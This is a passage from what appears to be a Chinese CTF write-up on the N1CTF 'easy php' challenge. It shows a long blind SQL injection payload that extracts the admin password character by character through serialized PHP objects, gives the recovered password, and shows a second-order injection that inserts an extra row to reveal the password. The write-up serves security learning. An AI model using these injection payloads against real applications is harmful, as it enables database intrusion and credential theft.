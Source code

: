 ```
wat`,(select case when ascii(substr((select password from ctf_users where is_admin=1),3,1))=48 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:7:"1.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=49 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:7:"2.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=50 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:7:"5.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=51 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"127.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=52 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"128.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=53 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"129.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=54 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"135.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=55 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:11:"27.116.56.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=56 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:12:"41.109.118.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=57 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:10:"5.11.15.64";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=97 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:12:"103.81.186.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=98 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:10:"5.10.240.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=99 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:11:"17.45.140.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=100 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:12:"43.249.176.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=101 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"41.76.8.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=102 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"46.8.41.0";s:4:"date";i:1520676219;}` else `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:7:"1.0.0.0";s:4:"date";i:1520676219;}` end)) -- -
```
&emsp;&emsp;但我在本地复现的时候这个payload却行不通，页面返回的是服务器错误，查看日志则是反序列化的错误。
<div align="center">
    <img src="/images/posts/n1ctf/36.png" width="50%" />  
</div>
&emsp;&emsp;这里作者就不再纠结这个问题了，最终`admin`的密码就是`nu1ladmin`。

#### 二次注入
&emsp;&emsp;除了盲注，这里作者还发现了一个博客中运用了更简单的payload，他使用了`二次注入`一次性将密码直接注入出来，从操作上来看二次注入的步骤显然要比盲注简单很多，所以作者对这种手法再进行练习。原博客地址为：<a href="http://p0sec.net/index.php/archives/118/">p0's blog | 破</a>

&emsp;&emsp;首先先注册一个新的用户，并且通过盲注确定他的`id`，然后进行二次注入，如：
```
signature=1`,(select 1)),('1','123','1','1')#mood=1
```
&emsp;&emsp;这种注入就是一次插入两行数据，这样我们可以控制第二行的所有数据，然后我们可以将`admin`的密码显示到`id`为自己账号上的`signature`上。
